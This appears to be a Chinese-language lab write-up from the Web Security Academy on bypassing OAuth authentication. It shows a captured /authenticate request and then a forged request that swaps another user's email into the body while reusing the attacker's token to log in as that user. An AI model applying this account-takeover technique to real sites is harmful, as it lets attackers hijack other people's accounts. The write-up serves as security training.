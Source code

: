 这是一个博客页面，我们可以用其他网络应用的账号，利用OAuth实现授权登录。输入正确的账号密码后，我们登录成功，通过使用BurpSuite抓包，我们可以分析出授权的请求如下：

```plain
POST /authenticate HTTP/1.1
Host: accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net
Cookie: session=4XXdLxkBBr2PHqqJiuogfnxTH5o84ixX
Content-Length: 103
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"email":"wiener@hotdog.com","username":"wiener","token":"G3dOwAKEb2Dg2UnFfoH2UjVpGIaq833HrGaJg2_nEWg"}
```

从这个请求中，我们容易分析出授权的令牌信息即为 Token 的内容。现在我们已知一个用户的邮箱为carlos@carlos-montoya.net，尝试用如下报文实现对这个邮箱对应账户的登录。

```plain
POST /authenticate HTTP/1.1
Host: accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net
Cookie: session=4XXdLxkBBr2PHqqJiuogfnxTH5o84ixX
Content-Length: 103
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"email":"carlos@carlos-montoya.net","username":"wiener","token":"G3dOwAKEb2Dg2UnFfoH2UjVpGIaq833HrGaJg2_nEWg"}
```
